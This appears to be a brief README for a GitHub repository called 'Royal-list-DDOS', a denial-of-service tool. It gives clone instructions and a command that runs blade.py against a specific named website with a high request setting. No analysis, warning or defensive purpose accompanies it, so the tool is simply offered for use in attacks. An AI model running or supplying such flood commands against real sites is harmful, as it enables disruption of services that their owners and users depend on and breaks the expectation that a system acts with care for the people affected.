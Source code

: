 # Royal-list-DDOS
git clone https://github.com/Xsarjame/Royal-list-DDOS

cd Royal-list-DDOS

python3 blade.py https://www.navinbcc.com -s 1000


![image](https://user-images.githubusercontent.com/96361084/154924325-a5c0cca7-aff2-4dfe-b435-564ba1292e55.png)
